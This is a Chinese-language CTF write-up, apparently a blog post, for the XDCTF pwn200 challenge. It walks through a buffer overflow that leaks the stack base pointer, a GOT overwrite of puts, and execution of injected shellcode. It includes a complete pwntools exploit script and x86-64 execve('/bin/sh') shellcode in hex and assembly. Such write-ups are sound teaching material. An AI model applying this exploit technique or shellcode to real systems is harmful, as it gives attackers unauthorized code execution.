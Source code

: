 ```yaml
---
title: xdctf-pwn200 
date: 2017-04-08 18:09:04
tags:
- 栈
- pwn
- ctf
---
```

XDCTF (哪一年的忘了)中的一道pwn题题目地址http://pan.baidu.com/s/1hszHtwo解题思路：缓冲区溢出->泄露ebp->覆盖got表->执行shellcode首先用ida分析这题的反汇编：这里是一个关键的缓冲区溢出点，这里虽然v2的长度和读入的最大长度一致，但是我们知道对于printf函数，如果后面的地址中（这里是v2的栈地址）的内容没有”/x00”这样的结束符，就会
<!-- more -->
### XDCTF (哪一年的忘了)中的一道pwn题
#### 解题思路：缓冲区溢出->泄露ebp->覆盖got表->执行shellcode
首先用ida分析这题的反汇编：

这里是一个关键的缓冲区溢出点，这里虽然v2的长度和读入的最大长度一致，但是我们知道对于printf函数，如果后面的地址中（这里是v2的栈地址）的内容没有”/x00”这样的结束符，就会一直打印下去，这样我们只要输入0x40个不为0的字符，就可以泄露出main函数的ebp值，通过main函数的ebp可以计算出任意函数的ebp：
~~~
from pwn import *
io = process("./pwn200")

payload1 = "a" * 0x30

io.recvuntil(" are u?\n")

io.send(payload1) # leak the ebp of main

t =io.recvline()[48:54] + '\x00\x00' #获取main函数ebp地址

x = hex(u64(t))

main_ebp_addr = int(x,16)
~~~

接下来进入return 后面的那个函数中，观察到dest的指针可以被覆盖，再结合后面的strcpy函数，我们知道我们可以对任意地址执行写操作：

于是我们选择覆盖puts函数的got表为我们可控的buf的栈上地址，这个地址可以通过之前得到的main_ebp_addr:
~~~
new_ebp = main_ebp_addr - 0x10 - 0x10 - 0x58 - 0x08  #当前函数的栈底

shellcode_addr = new_ebp - 0x40 + 0x10  #计算shellcode的首地址
~~~

接下来就是构造shellcode和查找got表中puts的地址，就可以拿shell了：
~~~
puts_got = 0x602028 #cover dest      
shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\xb8\x3b\x00\x00\x00\x0f\x05"
junk = "a" * (0x40 - 0x10 - 0x8 - len(shellcode))
payload2 = p64(shellcode_addr)+p64(0)+ shellcode + junk + p64(puts_got)
io.recvline()
io.sendline('0')
io.recvline()
io.send(payload2)
io.interactive()
~~~
~~~
section .text
global _start
_start:
xor rdi,rdi
xor rsi,rsi
xor rdx,rdx
mov rbx,68732f6e69622fH
push rbx
mov rdi,rsp
mov rax,59
syscall
~~~

上述代码用：
~~~
nasm -f elf64 shellcode.asm 
~~~

编译成shellcode.o文件后，再用：
~~~
 objdump -d shellcode.o
~~~

得到二进制代码：
~~~
0000000000000000 <_start>:
   0:   48 31 ff                xor    %rdi,%rdi
   3:   48 31 f6                xor    %rsi,%rsi
   6:   48 31 d2                xor    %rdx,%rdx
   9:   48 bb 2f 62 69 6e 2f    movabs $0x68732f6e69622f,%rbx
  10:   73 68 00 
  13:   53                      push   %rbx
  14:   48 89 e7                mov    %rsp,%rdi
  17:   b8 3b 00 00 00          mov    $0x3b,%eax
  1c:   0f 05                   syscall 
~~~

于是得到shellcode
